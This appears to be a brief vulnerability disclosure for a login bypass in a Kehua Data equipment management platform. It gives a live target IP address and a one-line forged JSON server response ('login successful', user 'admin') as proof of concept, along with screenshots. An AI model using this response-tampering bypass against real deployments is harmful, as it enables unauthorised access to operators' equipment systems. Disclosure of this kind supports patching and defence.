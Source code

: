There is a logical vulnerability in the equipment management platform of Kehua Data Co., Ltd., which can be exploited to obtain sensitive server information.

official：http://www.china-shine.com.cn/

version:1.0

 Vulnerability Path  ：/home

See the login page.

http://139.9.78.15:9999/home
<img width="702" height="382" alt="image" src="https://github.com/user-attachments/assets/b7e49753-509f-4930-a70d-88dcafc7d933" />
Enter password arbitrarily, capture packets, modify response packets, successfully bypass login and enter the system
poc：
{"code":1,"message":"登录成功","data":"admin"}
<img width="981" height="617" alt="image" src="https://github.com/user-attachments/assets/5fa797dd-5111-479e-9ee9-64c75c5c8f02" />
<img width="992" height="634" alt="image" src="https://github.com/user-attachments/assets/2567ae99-2955-4ee4-8ddf-7fe4f9763a50" />
<img width="978" height="564" alt="image" src="https://github.com/user-attachments/assets/2946bb99-e6d0-4e8b-8fbb-5cafdf9d0bf8" />

